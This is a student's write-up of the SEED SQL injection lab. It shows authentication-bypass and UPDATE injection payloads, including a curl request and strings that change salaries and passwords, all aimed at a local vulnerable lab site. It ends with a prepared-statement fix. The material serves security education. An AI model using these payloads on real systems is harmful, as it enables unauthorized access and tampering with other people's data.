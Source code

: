 # SQL Injection Attack Lab

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers.

Web applications often take user *inputs* to construct SQL queries for retrieving or storing data in a database. If these queries are not properly constructed, SQL injection vulnerabilities can arise.

![SQL Injection Attack](https://github.com/moooninjune/SEED-labs/blob/0b33ad65947b0754b4916b8eff9f10c15190fc80/images/lab8-SQL-injection-attack.png)

## Lab Environment Setup:

1. Map the web application's hostname `www.seed-server.com` to the container’s IP address `10.9.0.5`, by adding this entry to the `/etc/hosts` file.

    ```bash
    sudo gedit /etc/hosts

    #add the following entry
    10.9.0.5    www.seed-server.com
    ```

2. To set up this web application, there are two containers, one for hosting the *web application*, and the other for hosting *the database* for the web application.
    - Use the docker-compose.yml file to set up the lab environment.
    ```bash
    $ dcbuild # Alias for: docker-compose build
    $ dcup  # Alias for: docker-compose up
    ```

    - All the containers will be running in the background.
    ```bash
    # to find out the ID of the container
    # Alias for: docker ps --format "{{.ID}} {{.Names}}"
    $ dockps

    # to start a shell on that container
    # Alias for: docker exec -it <id> /bin/bash
    $ docksh <id>
    ```
    - Example:
    ```bash
    #in one terminal:

    $ dockps
    6f9ac28727e7  mysql-10.9.0.6
    501c8b535e7a  www-10.9.0.5

    $ docksh 6f # SQL database container

    #in another terminal:

    $ docksh 50 # web application container
    ```

## Task 1: Get Familiar with SQL Statements:

The data used by our web application is stored in a MySQL database, which is **hosted on our MySQL container**. We have created a database called `sqllab_users`, which contains a table called `credential`. The table stores the personal information (e.g. eid, password, salary, ssn, etc.) of every employee.

Inside the MySQL container:
```
# mysql -u root -pdees

mysql> use sqllab_users;
Database changed

mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

Use a SQL command to print all the profile information of the employee *Alice*:
```sql
select * from credential where Name='Alice';
```

## Task 2: SQL Injection Attack on *SELECT* Statement:

### Task 2.1: SQL Injection Attack from webpage.
- Username: `Admin' #`
- Password: Whatever you want, leave it empty even...

    It's like using a SQL query like this:
    ```sql
    select *
    from credential
    where name= 'Admin' #' and password='whatever';
    ```
    ```sql
    --normally it'd be something like this:
    where name= 'Admin' and password='admin-passwd';
    ```

    `#` is used to begin a comment in MySQL. Everything following the `#` is ignored by the query. So, we deleted the `and` condition, and the query now only checks for a match on the `name` field, allowing attackers to log in as Admin regardless of the password.

---
### Task 2.2: SQL Injection Attack from command line.
The same as Task 2.1, but without using the webpage.
- Using the command `curl`: which can send HTTP GET requests.
- If you want to include multiple parameters (*username*, *password*) in HTTP requests, you need to put the URL and the parameters between a pair of single quotes.

    ```bash
    # sending an HTTP GET request
    $ curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%20%23Password=whatever'

    # so it's like
    username= Admin' #
    password= whatever
    ```
    Special characters are encoded:
    - `%27` = single quote
    - `%20` = space
    - `%23` = hashtag #

- Then, export the html output into a `file.html` and open it. It contains all information we need but lacks the layout controls by a specified `CSS` file.
---
### Task 2.3: Append a new SQL statement.

Using an SQL query like this:
```sql
INSERT INTO credential (name, eid) VALUES ('Hello','123456');
```
Username: `a'; INSERT INTO credential (name, eid) VALUES ('Hello','123456') #`

![alt text](image.png)
It doesn't support for multiple queries as we can see.

## Task 3: SQL Injection Attack on *UPDATE* Statement:

### Task 3.1: Modify your own salary.
Log in as Alice and modify any field with:
```sql
', Salary=1000000 where name='Alice'#
```
---
### Task 3.2: Modify other people’ salary.
Log in as Alice and modify any field with:
```sql
', Salary=1 where name='Boby'#
```
---
### Task 3.3: Modify other people’ password.
Use a SHA1 hash function generator:

![alt text](image-1.png)

Log in as Alice and modify any field with:
```sql
', password='b0fdeba62faee00f08540fdd2d312404e5079938' where name='Boby' #
```
Check if Boby's password was modified:

![alt text](image-2.png)

## Task 4: Countermeasure — Prepared Statement:

1. Inside the lab setup folder, We'll modify the `unsafe.php` program inside the `image_www/Code/defense` folder.

    These are the lines that are *unsafe*:
    ```php
    $result = $conn->query("SELECT id, name, eid, salary, ssn
                            FROM credential
                            WHERE name= '$input_uname' and Password= '$hashed_pwd'");
    if ($result->num_rows > 0) {
    // only take the first row 
    $firstrow = $result->fetch_assoc();
    $id     = $firstrow["id"];
    $name   = $firstrow["name"];
    $eid    = $firstrow["eid"];
    $salary = $firstrow["salary"];
    $ssn    = $firstrow["ssn"];
    }
    ```

    We'll change them to:
    ```php
    $stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                            FROM credential
                            WHERE name=? and Password=?");

    $stmt->bind_param("ss", $input_uname, $hashed_pwd);
    $stmt->execute();
    $stmt->bind_result($id, $name, $eid, $salary, $ssn);
    $stmt->fetch();
    ```

    Now, the query structure cannot be changed by user inputs, and inputs are **Data-Only**, so SQL commands from user inputs are ignored.

2. After you are done, you need to **rebuild and restart the container**, or the changes will not take effect. Also, make sure to move all the files inside the `defense` folder to the `code` folder because of the `docker-compose.yml`.

3. Open the website and see if the attacks still work. (They shouldn't).

    ![alt text](image-3.png)

    ![alt text](image-4.png)